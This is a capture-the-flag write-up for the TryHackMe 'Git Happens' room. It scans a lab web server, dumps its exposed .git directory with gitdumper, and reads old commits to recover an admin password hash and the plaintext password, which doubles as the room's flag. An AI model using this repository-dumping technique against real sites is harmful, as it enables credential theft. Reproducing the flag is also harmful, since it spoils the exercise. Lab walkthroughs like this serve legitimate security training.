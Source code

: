 ```yaml
---
title: "Git Happens"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


<img src="git.png" width=200 height=200 alt="git">

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
| http-git:
|   10.10.106.206:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf

```

.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
css                     [Status: 301, Size: 194, Words: 7, Lines: 8]
index.html              [Status: 200, Size: 6890, Words: 541, Lines: 61]
```

http-git? .git/HEAD? Its a git repository!

we can visit /.git/ directory for more information

we can dump the repo using `git tools` (dumper)

`./gitdumper.sh 10.10.106.206/.git/ /home/User/Desktop/Git happens/Git/.git`

Now we check logs

`git log`

```
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date: Thu Jul 23 22:22:16 2020 +0000

Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Fri Jul 24 00:21:25 2020 +0200

add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Fri Jul 24 00:08:38 2020 +0200

setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Thu Jul 23 23:42:30 2020 +0200

Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Thu Jul 23 23:41:12 2020 +0200

:...skipping...
commit d0b3578a628889f38c0affb1b75457146a4678e5 (HEAD -> master, tag: v1.0)
Author: Adam Bertrand <hydragyrum@gmail.com>
Date: Thu Jul 23 22:22:16 2020 +0000

Update .gitlab-ci.yml

commit 77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Fri Jul 24 00:21:25 2020 +0200

add gitlab-ci config to build docker file.

commit 2eb93ac3534155069a8ef59cb25b9c1971d5d199
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Fri Jul 24 00:08:38 2020 +0200

setup dockerfile and setup defaults.

commit d6df4000639981d032f628af2b4d03b8eff31213
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Thu Jul 23 23:42:30 2020 +0200

Make sure the css is standard-ish!

commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Thu Jul 23 23:41:12 2020 +0200

re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Thu Jul 23 23:37:32 2020 +0200

Security says obfuscation isn't enough.

They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Thu Jul 23 23:25:52 2020 +0200

Obfuscated the source code.

Hopefully security will be happy!

commit 395e087334d613d5e423cdf8f7be27196a360459
Author: Hydragyrum <hydragyrum@gmail.com>
Date: Thu Jul 23 23:17:43 2020 +0200
```

Now from commits hashes we can see modified files with git show

`git show d954a99b96ff11c37a558a5d93ce52d0f3702a7d`

```
...
username === 'admin' &&

-          passwordHash === '4004c23a71fd6ba9b03ec9cb7eed08471197d84319a865c5442a9d6a7c7cbea070f3cb6aa5106ef80f679a88dbbaf89ff64cb351a151a5f29819a3c094ecebbb'
-        ) {
  ...
```

we get a hashed pasword for admin I thought about cracking it first but checking the initial commit already shows creds in plain text

```
- <script>
-      function login() {
  -        let form = document.getElementById("login-form");
  -        console.log(form.elements);
  -        let username = form.elements["username"].value;
  -        let password = form.elements["password"].value;
  -        if (
    -          username === "admin" &&
    -          password === "Git_happens_flag!"
    -        ) {
    -          document.cookie = "login=1";
    -          window.location.href = "/dashboard.html";
    -        } else {
      -          document.getElementById("error").innerHTML =
      -            "INVALID USERNAME OR PASSWORD!";
      -        }
      -      }
      - </script>
```

login creds are:

`admin : Git_happens_flag!`

the login page doesnt even work...the password you find is already the flag

so obviously don't trust mine

I deleted my Git folder content before uploading here..git repo in git repo is not a simple thing to handle
